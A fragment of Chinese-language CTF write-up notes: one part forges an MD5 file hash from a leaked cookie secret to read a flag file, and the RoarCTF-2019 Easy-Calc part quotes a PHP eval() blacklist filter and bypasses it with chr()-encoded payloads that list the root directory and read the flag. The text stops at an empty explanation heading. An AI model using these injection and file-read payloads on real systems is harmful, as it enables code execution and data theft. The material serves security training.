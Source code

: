 python md5脚本如下
```py
import hashlib

def md5(s):
	md5 = hashlib.md5()
	md5.update(s.encode('utf8'))
	return md5.hexdigest()

def filehash():
	filename = '/fllllllllllllaaaaaag'
	cookie_secret = 'ef57c331-744f-4528-b434-9746317d4f6a'
	print(md5(cookie_secret+md5(filename)))

if __name__ == '__main__':
	filehash()
```
file?filename=/fllllllllllllaaaaaag&filehash=1ad9b8e09fbe539bc5a6f2c8bc0ab5db
payload:
file?filename=/fllllllllllllag&filehash=6edf92c8ea6844c3001fcb640b504f8c
**Resource**
https://blog.csdn.net/qq_43678005/article/details/108108520

## RoarCTF-2019-Easy-Calc

查看源代码发现calc.php

calc.php
```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

payload:
```
? num=1;var_dump(scandir(chr(47)))
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

```
**原理**
